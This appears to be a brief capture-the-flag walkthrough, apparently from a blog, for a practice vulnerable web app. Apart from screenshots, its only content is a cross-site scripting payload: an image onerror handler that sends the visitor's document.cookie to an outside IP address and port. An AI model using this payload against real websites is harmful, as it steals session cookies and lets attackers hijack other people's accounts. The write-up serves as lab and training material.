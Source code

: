 ```yaml
---
date: 2025-02-20
categories: [CTF, IML]
title: "IML - Mini CTF: Vulnerable Web App – Ep.3"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App – - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.3


![image1](../resources/5b798f6da8f641a3b617ece54837c76f.png)

- Get an input field that broadcasts:


![image2](../resources/da75ca20153e48c98a269378acaa017d.png)

- Use payload:

`<img src=x onerror="location.href='http://10.102.120.158:8001/?c='+ document.cookie">`


![image3](../resources/14d26214249741618a0004b3d39c7f64.png)